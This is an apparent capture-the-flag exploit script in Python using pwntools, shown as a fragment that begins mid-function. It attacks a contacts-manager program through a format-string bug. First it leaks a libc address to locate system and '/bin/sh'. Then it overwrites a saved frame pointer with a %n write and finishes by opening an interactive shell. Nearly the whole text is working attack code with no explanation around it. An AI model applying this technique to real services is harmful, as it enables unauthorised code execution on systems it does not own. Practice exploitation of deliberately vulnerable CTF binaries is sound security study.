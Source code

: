 ```python
	sh=io
	sh.recvuntil('>>> ')
	sh.sendline('1')
	sh.recvuntil('Contact info: \n')
	sh.recvuntil('Name: ')
	sh.sendline(name)
	sh.recvuntil('You have 10 numbers\n')
	sh.sendline(phone)
	sh.recvuntil('Length of description: ')
	sh.sendline(descrip_len)
	sh.recvuntil('description:\n\t\t')
	sh.sendline(description)
def printcontact(io):
	sh=io
	sh.recvuntil('>>> ')
	sh.sendline('4')
	sh.recvuntil('Contacts:')
	sh.recvuntil('Description: ')

#gdb.attach(io)

createcontact(io,"1","1","111","%31$paaaa")
printcontact(io)
libc_start_main = int(io.recvuntil('aaaa', drop=True), 16)-241
log.success('get libc_start_main addr: ' + hex(libc_start_main))
libc_base=libc_start_main-libc.symbols["__libc_start_main"]
system=libc_base+libc.symbols["system"]
binsh=libc_base+next(libc.search("/bin/sh"))
log.success("system: "+hex(system))
log.success("binsh: "+hex(binsh))

payload = '%6$p%11$pccc'+p32(system)+'bbbb'+p32(binsh)+"dddd"
createcontact(io,'2', '2', '111', payload)
printcontact(io)
io.recvuntil('Description: ')
data = io.recvuntil('ccc', drop=True)
data = data.split('0x')
print data
ebp_addr = int(data[1], 16)
heap_addr = int(data[2], 16)+12
log.success("ebp: "+hex(system))
log.success("heap: "+hex(heap_addr))

part1 = (heap_addr - 4) / 2
part2 = heap_addr - 4 - part1
payload = '%' + str(part1) + 'x%' + str(part2) + 'x%6$n'

#payload=fmtstr_payload(6,{ebp_addr:heap_addr})
##print payload
createcontact(io,'3333', '123456789', '300', payload)
printcontact(io)
io.recvuntil('Description: ')
io.recvuntil('Description: ')
##gdb.attach(sh)
log.success("get shell")
io.recvuntil('>>> ')
##get shell
io.sendline('5')
io.interactive()
```
